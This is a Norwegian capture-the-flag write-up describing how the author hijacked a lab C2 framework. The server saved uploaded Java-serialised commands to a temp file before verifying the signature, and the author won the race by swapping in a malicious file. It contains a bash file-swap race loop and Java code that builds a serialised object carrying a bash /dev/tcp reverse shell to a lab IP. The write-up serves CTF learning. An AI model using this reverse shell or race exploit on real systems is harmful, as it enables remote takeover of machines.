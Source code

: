 
## Writeup av hvordan jeg tok over C2-infrastrukturen ved å injisere et ondsinnet javaobjekt.

Jeg deltok i Etterretningstjenestens CTF høsten 2022, og denne writeupen tar for seg en av oppgavene.

<br>
<br>

Følgende kodesnutt viser litt av serverkoden for C2-rammeverket

```python
@app.route(PREFIX + "<client_id>/commands", methods=["POST"])
def add_command(client_id):
    upload_file = request.files.get("file", None)
    if not upload_file:
        logger.warning("missing file argument")
        return Response("", 400)

    with tempfile.NamedTemporaryFile(dir=WORKSPACE) as f:
        command_file = f.name
        upload_file.save(command_file)            # <------------------- her er sårbarheten
        print(f"saved file as {f.name}")
        try:
            obj = Command(f)      # <-------- filen blir deserialisert og verifiserer 
            obj.verify()          #           bla. at filen inneholder riktig signatur

            logger.info(f"registering new command for client {client_id}")
            add_command_to_db(client_id, obj.run_after, command_file)       # <--------- lagrer kommandoen i database 
            return Response(f"OK\n", 200)                                   #            som klientene sjekker i ny og ne

        except:
            logger.exception("invalid command or signature")
            return Response("", 400)
```

C2-rammerverket var satt opp slik at angriperen kunne sende en javaserialisert kommando (via POST-request) til klienter tilnyttet C2-serveren. Dersom kommandoen hadde riktig signatur ble den lagret i en database. Denne databasen fungerte som et postkontor hvor alle klienter koblet seg på for å se om det var lagret nye kommandoer til dem.

Jeg hadde tilgang til maskinen som kjørte denne C2-serveren, og målet mitt var å få tilgang til en eller flere klienter. Jeg prøvde å lage ondsinnede javaserialiserte kommandoer og sendte disse direkte til en av klientene, men dette gikk ikke fordi jeg ikke hadde riktig signatur.

Etter å ha studert server-koden fikk jeg øye på at kommandoen ble først lagret som en tmp-fil før den ble deserialisert og signatur sjekket. Kanskje kunne jeg utnytte dette ved å bytte ut en legitim kommando med min egen.

<br>
<br>

Siden tmp-filen ble slettet med en gang kommandoen var blitt lagret i databasen måtte jeg skrive et enkelt bash-script som byttet ut den legitime kommandoen med min egen:

```bash
cd .../   # Mappen hvor server lagrer både log-filer og kommando-fil i tmp-format
		      # tmp-filen blir slettet ganske fort
while true;
do
	var=$(ls | wc -l)   # Lagre antall filer i mappen i `var` (.log osv tas ikke med, derfor `ls` for å ikke telle med skjulte filer)
	if [ $var -eq 1 ]   # Hvis `var` == 1, da har server lagret tmp-filen
	then
		for f in `ls`
		do 
			echo "- $f created\n- Replacing with malicious object"
			sleep .001    # Sleep slik at koden får tid til å gjennomføre signatur-sjekk på den legitime kommando-filen
			base=$(basename -- "$f")    # Lagre tmp-navnet i variabel `base`
			mv -v $base ../   # Flytt den legitime kommando-filen bort
			cp ../evil_config_deadbeef $base   # Kopier ond kommando-fil til det samme tmp-navnet som den legitime filen hadde
			break   # Nå vil databasen ane fred og ingen fare og lagre den onde kommando-filen
		done
	fi
done
```
<br>

Kode for å lage det ondsinnede javaobjektet:

```java
import commands.Command;
import commands.Execute;
import utils.Config;
import java.io.*;
import java.time.Instant;

public class evilSerial {

    public static void writeObject(ObjectOutputStream var1) throws IOException {

        Config cfg = new Config();
        Command exec = new Execute();

        exec.recipient = "DEADBEEFDEADBEEF";
        exec.runAfter = Instant.now();
        exec.value = "exec bash -i &>/dev/tcp/10.1.194.171/1337 <&1";
        cfg.id = "DEADBEEFDEADBEEF";
        cfg.serverURL = "http://shady-aggregator.utl/f52e6101/";
        cfg.sleepDuration = 15;
        cfg.pendingCommands.add(exec);
        var1.writeObject(cfg);
}

    public static void main(String[] args) throws IOException {

        FileOutputStream fos = new FileOutputStream("evil_config_deadbeef");
        ObjectOutputStream os = new ObjectOutputStream(fos);
        writeObject(os);
        os.close();
    }

}
```

<br>

Video av gjennomføring:

![](https://github.com/vegkva/writeups/blob/main/etjenesten_h%C3%B8st22/C2/ezgif-5-710a3f6a0c.gif)

